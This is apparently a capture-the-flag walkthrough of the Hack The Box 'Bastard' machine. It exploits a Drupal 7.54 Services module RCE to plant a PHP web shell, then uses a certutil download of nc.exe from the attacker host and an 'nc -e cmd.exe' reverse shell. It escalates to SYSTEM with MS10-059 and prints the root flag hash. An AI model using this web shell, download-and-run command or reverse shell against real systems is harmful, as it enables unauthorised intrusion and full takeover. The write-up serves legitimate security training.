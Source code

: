 ```yaml
---
layout: single
title: "Bastard"
categories: htb
classes: wide
---
```


## Enumeration

First we do the nmap scan:
```bash
nmap -v -sV -sC -T5 -oN nmap.txt 10.10.10.9
......
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


```

We see 3 ports are open. Only interesting port is 80 which is running drupal cms. 

We need to find the cms correct and exact version to search for known vulnerability. Let's go to ```10.10.10.9/CHANGELOG.txt``` and we see something like:
```
Drupal 7.54, 2017-02-01
```


## Searching For Vulnerablity
I used searchsploit command in kali to search the vulnerability:
![Bastard Vulnerability](./bastard1.png)

The working exploit is:
```bash
exploits/php/webapps/41564.php
```
I simply edited two lines of this exploit:
```php
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```
to

```php
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```
But the exploit failed!

I was not that familiar with this vulnerability. Found another article about this vulnerability is <https://www.ambionics.io/blog/drupal-services-module-rce>. I did some more Google search, and found i need to make another post request before working this exploit:

```html
POST /rest HTTP/1.1
Host: 10.10.10.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.9/
Content-Type: application/x-www-form-urlencoded
Content-Length: 122
Connection: close
Cookie: has_js=1
Upgrade-Insecure-Requests: 1
```
After this request with burp suite, the server replied:
```html
HTTP/1.1 200 OK
Cache-Control: no-cache, must-revalidate
Content-Type: text/html
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Server: Microsoft-IIS/7.5
X-Powered-By: PHP/5.3.28
X-Content-Type-Options: nosniff
X-Powered-By: ASP.NET
Date: Sat, 09 May 2020 18:39:15 GMT
Connection: close
Content-Length: 62

Services Endpoint "rest_endpoint" has been setup successfully.
```

## Working Exploit
I had to fix some lines in the exploit and modify the ```$endpoint_path```
Exploit final modification was(For some troublshooting i used burpsuite here):

```php
$url = 'http://127.0.0.1:8081';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'backdoor.php',
    'data' => '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }?>'
];
```

And 
```bash
root@kali:/opt/htb1/basterd# php *.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://127.0.0.1:8081/backdoor.php
```

### Reverse Shell

I have uploaded nc.exe and :
```bat
http://10.10.10.9/backdoor.php?cmd=certutil.exe -urlcache -split -f http://10.10.14.14/nc.exe nc.exe
http://10.10.10.9/backdoor.php?cmd=nc -e cmd.exe ip port
```

I quickly got shell in my kali machine. I save the output of ```systeminfo``` command and use [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) python script:
```bash
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --systeminfo sysfo.txt -d *.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```
I exploited [MS10-059](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri) for privilege escalation as follows:

```bash
nc -lvp 444
listening on [any] 444 ...
10.10.10.9: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.9] 51514
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>Chimichurri.exe 10.10.14.14 333    
Chimichurri.exe 10.10.14.14 333

/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
C:\inetpub\drupal-7.54>
C:\inetpub\drupal-7.54>
```

In another terminal nc was waiting for the connection on port 333. In few seconds i got shell:

```bash
c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA

 Directory of c:\Users\Administrator\Desktop

19/03/2017  08:33     <DIR>          .
19/03/2017  08:33     <DIR>          ..
19/03/2017  08:34                 32 root.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  30.801.559.552 bytes free

c:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
4bf12b963da1b30cc93496f617f7ba7c
c:\Users\Administrator\Desktop>whoami
whoami
nt authority\system

c:\Users\Administrator\Desktop>
```
![Root](/images/bastard/root.png)
